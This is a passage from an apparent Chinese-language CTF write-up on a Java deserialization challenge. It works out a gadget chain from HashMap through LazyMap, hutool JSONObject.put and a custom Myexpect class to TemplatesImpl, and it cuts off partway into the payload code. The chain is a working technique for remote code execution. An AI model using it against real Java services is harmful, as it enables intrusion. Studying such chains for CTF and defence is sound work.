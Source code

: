 ```java
        }).start();
    }
}
```

由于CC版本为3.2.2，没漏洞不能直接打。8u202也不能打原生反序列化

但是hint：**cn.hutool.json.JSONObject.put->com.app.Myexpect#getAnyexcept**能绕

getAnyexcept()调用newInstance()

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240922113210037.png)

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240802170805620.png)

newInstance就是调用构造函数嘛，效果和InstantiateTransformer.transform()一样

根据该图，自然就和CC3接上了

前半段触发JSONObject.put，用到LazyMap.get

CC6，CC5，CC7前半段都能用，至于能不能用，具体环境看下链子就行。只是不能用AnnotationInvocationHandler（jdk>8u65）

CC6拼CC3链子：

```xml
HashMap.readObject->
	TiedMapEntry.hashCode->
		LazyMap.get->
			JSONObject.put->
				Myexpect.getAnyexcept->
					TrAXFilter.TrAXFilter->
						TemplatesImpl.newTransformer
```

需要传三个参数获取TrAXFilter的构造器并实例化

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240922114822842.png)

```java
Myexpect myexpect = new Myexpect();
myexpect.setTypeparam(Templates.class);
myexpect.setTargetClass(TrAXFilter.class);
myexpect.setTypearg(templatesClass);
```

**cn.hutool.json.JSONObject.put->com.app.Myexpect#getAnyexcept**

put接收两个参数，你就别管是哪个，不让LazyMap.get报错只能是value为expect。谜语题

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240922150238613.png)

向put的key传constantTransformer(myexpect)，当然，CC6后半段的remove、先set假值再换真值的操作不能少

payload：

```java
package org.example;

import cn.hutool.json.JSONObject;
import com.app.Myexpect;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.xml.transform.Templates;
import java.lang.reflect.Field;
import java.lang.reflect.Modifier;
```